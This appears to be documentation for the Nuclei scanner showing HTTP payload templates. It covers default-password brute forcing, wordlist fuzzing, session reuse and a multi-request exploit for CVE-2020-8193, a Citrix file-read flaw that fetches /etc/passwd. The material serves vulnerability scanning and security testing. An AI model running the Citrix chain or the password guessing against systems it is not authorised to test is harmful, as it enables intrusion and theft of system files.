```yaml
---
title: "HTTP Payloads Examples"
description: "Review some HTTP payload examples for Nuclei"
sidebarTitle: "Payloads Examples"
---
```


## HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

http:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    attack: clusterbomb # Available types: batteringram,pitchfork,clusterbomb
    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each request and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```